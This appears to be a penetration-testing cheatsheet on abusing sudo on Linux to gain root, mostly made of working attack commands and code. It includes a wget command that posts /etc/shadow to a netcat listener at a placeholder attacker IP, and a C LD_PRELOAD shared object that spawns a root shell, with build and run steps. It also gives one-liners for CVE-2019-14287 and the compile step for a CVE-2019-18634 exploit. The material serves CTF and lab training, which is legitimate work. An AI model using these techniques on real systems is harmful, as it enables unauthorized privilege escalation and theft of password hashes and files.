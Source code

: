 Abusing Sudo

Sudo Shell Escaping

Checking Sudo Rights for Current User

~~~bash
sudo -l
~~~

Lists all applications that can be run as root or another user that potentially has higher privileges (with or without a password).

GTFOBins

GTFOBins Github.io

Escaping underprivileged shell cheatsheet

Intended Functionality

Using a binary that does not have the ability to gain a privileged shell, but does have sudo capability when viewing in “sudo -l”.

ex. You have sudo capability for wget in the "sudo -l" output:

Attacker Machine:

~~~bash
nc -vnlp 4444
~~~

Victim Machine:

~~~bash
sudo wget --post-file=/etc/shadow <ATTACKER-IP> 4444
~~~

This example will dump the shadow file on to the attacker's netcat session and will be readable by the attacker machine and can then be used to decrypt the shadow file. Please note that this can be used to read other files that are not readily accessible by the underprivileged user.

ex. You know that there is a file named flag.txt located in /root. You can --post-file=/root/flag.txt instead of shadow to obtain the root flag.
sudo -l

LD_PRELOAD

LD_PRELOAD may show up when performing a “sudo -l” command. This will allow us to create our own custom SO to escape the underprivileged account and run as root.

C Code for the SO (shell.c):

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

After saving this file on the victim machine, compile using GCC:

~~~bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

After compiling the SO file from the C Code, you will need to execute LD_PRELOAD with the SO file (with full path to SO file) as sudo against a service that you have sudo rights to:

~~~bash
sudo LD_PRELOAD=/home/user/shell.so apache2
~~~

SUDO EXPLOIT - CVE-2019-14287

~~~bash
#Taking over root account
sudo -u#-1 /bin/bash
# OR
sudo -u#4294967295 /bin/bash

#Taking over another user account
sudo -u#+1000 /bin/bash
~~~

SUDO BUFFER OVERFLOW - CVE-2019-18634

Begin by checking out the sudoers file at "/etc/sudoers" and look for an uncommented section that contains the word “pwfeedback”

THIS IS ONLY VULNERABLE FOR VERSIONS 1.8.26 OR EARLIER WITH "pwfeedback" ENABLED

Determining version of sudo and if pwfeedback is enabled: 

~~~bash
#Determining the version of sudo
sudo -V
#Checking if we can read the sudoers file for the pwfeedback option
cat /etc/sudoers
#If unable to access the sudoers file, run “sudo su root” and see if you get asterisks when typing in a password
sudo su root
~~~

Exploit Code:

Compile the exploit.c file by performing the following command:

~~~bash
gcc exploit.c -o exploit
~~~

https://github.com/saleemrashid/sudo-cve-2019-18634
